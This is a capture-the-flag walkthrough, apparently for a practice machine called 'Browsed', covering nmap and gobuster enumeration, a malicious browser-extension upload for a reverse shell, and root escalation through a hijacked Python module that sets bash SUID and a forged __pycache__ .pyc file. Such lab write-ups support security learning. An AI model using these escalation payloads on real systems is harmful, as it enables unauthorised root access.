



## Machine Browsed (Active) [Medium]

lets start with an nmap scan: 
```
    ❯ nmap -T4 -F -sV 10.129.3.5
    Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-19 23:24 +0100
    Nmap scan report for 10.129.3.5
    Host is up (0.57s latency).
    Not shown: 98 closed tcp ports (reset)
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
    80/tcp open  http    nginx 1.24.0 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 14.44 seconds

```

alright, so a web interface and an ssh port;

lets check on the web interface:\
\
from here we can identify 2 intresting pages : \
/samples.html \
\
and /upload.php\
\
lets take a look at them one by one and analyze their behaviour:
for /sample.html u basically dowanload extensions, lets check upload.php\
\
what it apparently does is try the extension zip file, so we prolly can inject something in that extension file that could grant us shell or anything useful.\
first of all i downloaded a sample extension to observe how it behaves : 
\
so here we got the files ,lets try top upload it and look at what it exactly outputs.\
before i could do any injection, i need to find where extension processes reside when ran : \ 
``` gobuster dir -u http://10.129.3.167 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt```

and we got a response , /routines/ , now lets craft our malicious zip file extension: \
- with the help of some ai, i found out that u only need 2 files, manifest.json which is like the id card of the extension, and background.js where we will run our reverse shell code to gain shell acess, and then we zip both of them and get shell!

 - reverse shell done ! : \
  \
  got the user flag !\


as always , now lets look for the root :\
lets check for possible priv esc vectors:
```
larry@browsed:~$ getcap -r / 2>/dev/null
getcap -r / 2>/dev/null
/usr/bin/ping cap_net_raw=ep
/usr/bin/mtr-packet cap_net_raw=ep
/usr/lib/snapd/snap-confine cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_setgid,cap_setuid,cap_sys_chroot,cap_sys_ptrace,cap_sys_admin=p
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin,cap_sys_nice=ep
larry@browsed:~$ sudo -l
sudo -l
Matching Defaults entries for larry on browsed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User larry may run the following commands on browsed:
    (root) NOPASSWD: /opt/extensiontool/extension_tool.py

```

alright, /opt/extensiontool/extension_tool.py
 seems prominent, lets check it out !
 ```
 cat /opt/extensiontool/extension_tool.py
#!/usr/bin/python3.12
import json
import os
from argparse import ArgumentParser
from extension_utils import validate_manifest, clean_temp_files
import zipfile

EXTENSION_DIR = '/opt/extensiontool/extensions/'

def bump_version(data, path, level='patch'):
    version = data["version"]
    major, minor, patch = map(int, version.split('.'))
    if level == 'major':
        major += 1
        minor = patch = 0
    elif level == 'minor':
        minor += 1
        patch = 0
    else:
        patch += 1

    new_version = f"{major}.{minor}.{patch}"
    data["version"] = new_version

    with open(path, 'w', encoding='utf-8') as f:
        json.dump(data, f, indent=2)
    
    print(f"[+] Version bumped to {new_version}")
    return new_version

def package_extension(source_dir, output_file):
    temp_dir = '/opt/extensiontool/temp'
    if not os.path.exists(temp_dir):
        os.mkdir(temp_dir)
    output_file = os.path.basename(output_file)
    with zipfile.ZipFile(os.path.join(temp_dir,output_file), 'w', zipfile.ZIP_DEFLATED) as zipf:
        for foldername, subfolders, filenames in os.walk(source_dir):
            for filename in filenames:
                filepath = os.path.join(foldername, filename)
                arcname = os.path.relpath(filepath, source_dir)
                zipf.write(filepath, arcname)
    print(f"[+] Extension packaged as {temp_dir}/{output_file}")

def main():
    parser = ArgumentParser(description="Validate, bump version, and package a browser extension.")
    parser.add_argument('--ext', type=str, default='.', help='Which extension to load')
    parser.add_argument('--bump', choices=['major', 'minor', 'patch'], help='Version bump type')
    parser.add_argument('--zip', type=str, nargs='?', const='extension.zip', help='Output zip file name')
    parser.add_argument('--clean', action='store_true', help="Clean up temporary files after packaging")
    
    args = parser.parse_args()

    if args.clean:
        clean_temp_files(args.clean)

    args.ext = os.path.basename(args.ext)
    if not (args.ext in os.listdir(EXTENSION_DIR)):
        print(f"[X] Use one of the following extensions : {os.listdir(EXTENSION_DIR)}")
        exit(1)
    
    extension_path = os.path.join(EXTENSION_DIR, args.ext)
    manifest_path = os.path.join(extension_path, 'manifest.json')

    manifest_data = validate_manifest(manifest_path)
    
    # Possibly bump version
    if (args.bump):
        bump_version(manifest_data, manifest_path, args.bump)
    else:
        print('[-] Skipping version bumping')

    # Package the extension
    if (args.zip):
        package_extension(extension_path, args.zip)
    else:
        print('[-] Skipping packaging')


if __name__ == '__main__':
    main()

 ```


 - yeah so basically i was stuck here for a long time, I needed the help of an ai, and god damn how obvious it was, you only need to pull off a simple python library hijack: 
 ``` extension_utils ``` , we just create a seperate ones, and the change the code for ``` validate_manifest, clean_temp_file ``` to something that opens a shell as a priviliged user, as easy as that, let's take it to the test; \
 ``` extension_utils.py :```
    ```
        import os

        def validate_manifest(path):
            os.system("chmod +s /bin/bash")

        def clean_temp_files(x):
            pass
    ```
as simple as that,\
now obviously we can't just write to /opt/extensiontool/ directly, no permissions. but notice this:
``` drwxrwxrwx 2 root root 4096 Feb 20 15:40 __pycache__ ```

from what i read online (im still learning XD), ```__pycache__``` is where python stores pre compiled versions of every module it imports, so if we create a custom malicious .pyc that uses the new module we created (that opens a shell), python will execute it, well it didnt work for some reason. after some looking online, I found that python has some specific rules before using the cache, first thing is that: does the timestamp of the .pyc match the source file's last modified time, and does it match the source file's size. we can change these,
i changed the timestamps like this : 
```
stat = os.stat(ORIGINAL_SRC)          # read original's timestamps
os.utime(MALICIOUS_SRC, (stat.st_atime, stat.st_mtime))  # stamp ours with the same values
``` 

and for the size, its much easier, u just fill it with comments until it fits, AND ....... \
\
DONE !

